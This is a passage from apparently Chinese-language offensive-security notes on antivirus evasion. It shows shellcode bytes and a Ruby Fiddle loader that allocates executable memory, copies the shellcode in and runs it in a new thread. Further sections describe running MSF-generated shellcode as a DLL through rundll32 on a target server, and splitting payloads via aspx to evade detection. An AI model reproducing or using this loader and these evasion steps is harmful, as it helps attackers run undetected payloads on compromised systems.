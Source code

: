```
    "\\x68\\x75\\x73\\x65\\x72\\x30\\xdb\\x88\\x5c\\x24\\x0a\\x89\\xe6\\x56"
    "\\xff\\x55\\x04\\x89\\xc2\\x50\\xbb\\xa8\\xa2\\x4d\\xbc\\x87\\x1c\\x24"
    "\\x52\\xe8\\x5f\\xff\\xff\\xff\\x68\\x72\\x58\\x20\\x20\\x68\\x6f\\x70"
    "\\x6f\\x6f\\x68\\x4d\\x69\\x63\\x72\\x31\\xdb\\x88\\x5c\\x24\\x09\\x89"
    "\\xe3\\x68\\x72\\x58\\x20\\x20\\x68\\x6f\\x70\\x6f\\x6f\\x68\\x4d\\x69"
    "\\x63\\x72\\x31\\xc9\\x88\\x4c\\x24\\x09\\x89\\xe1\\x31\\xd2\\x52\\x53"
    "\\x51\\x52\\xff\\xd0\\x31\\xc0\\x50\\xff\\x55\\x08" 
    
    
    include Fiddle 
    
    kernel32 = Fiddle.dlopen('kernel32') 
    
    ptr = Function.new(kernel32['VirtualAlloc'], [4,4,4,4], 4).call(0, shellcode.size, 0x3000, 0x40)
    
    Function.new(kernel32['VirtualProtect'], [4,4,4,4], 4).call(ptr, shellcode.size, 0, 0)
    
    buf = Fiddle::Pointer[shellcode] 
    
    Function.new(kernel32['RtlMoveMemory'], [4, 4, 4],4).call(ptr, buf, shellcode.size)
    
    thread = Function.new(kernel32['CreateThread'],[4,4,4,4,4,4], 4).call(0, 0, ptr, 0, 0, 0) 
    
    Function.new(kernel32['WaitForSingleObject'], [4,4], 4).call(thread, ‐1)
    
```

        

* * *

#### 9.1.5 dll加载shellcode免杀上线

    https://www.freebuf.com/articles/system/228233.html  
    
        

书上介绍MSF生成shellcode，然后通过编译生成dll文件,上传到目标服务器,用rundⅢ32运行

    rundll32 xxxx.dll start
    
        

* * *

#### 9.1.6 借助aspx对payload进行分离免杀

关于分离免杀，其他章节参考：

[47课时payload特征，行为分离免杀思路](https://micro8.gitbook.io/micro8/contents-1/41-50/47payload-fen-li-mian-sha-si-lu)

[48课时payload分离免杀思路第二季](https://micro8.gitbook.io/micro8/contents-1/41-50/48payload-fen-li-mian-sha-si-lu-di-er-ji)

本季针对目标环境支持aspx进行分离免杀。
